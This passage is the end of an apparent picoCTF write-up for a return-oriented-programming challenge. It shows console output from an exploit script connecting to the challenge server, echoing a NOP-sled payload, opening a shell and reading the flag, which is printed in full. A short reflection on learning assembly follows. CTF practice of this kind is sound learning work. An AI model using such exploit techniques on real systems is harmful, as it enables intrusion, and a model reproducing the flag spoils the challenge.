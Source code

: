 ```console
> python3 ape5_solution.py
[+] Opening connection to jupiter.challenges.picoctf.org on port 38467: Done
[*] Switching to interactive mode
Congrats \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x
90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\
x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\xf4cA

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_580891753d5e9212}
```

# CONCLUSION

I've spent hours on this one to find a solution and to understand every details. But at the end i've a better knowledge of asm.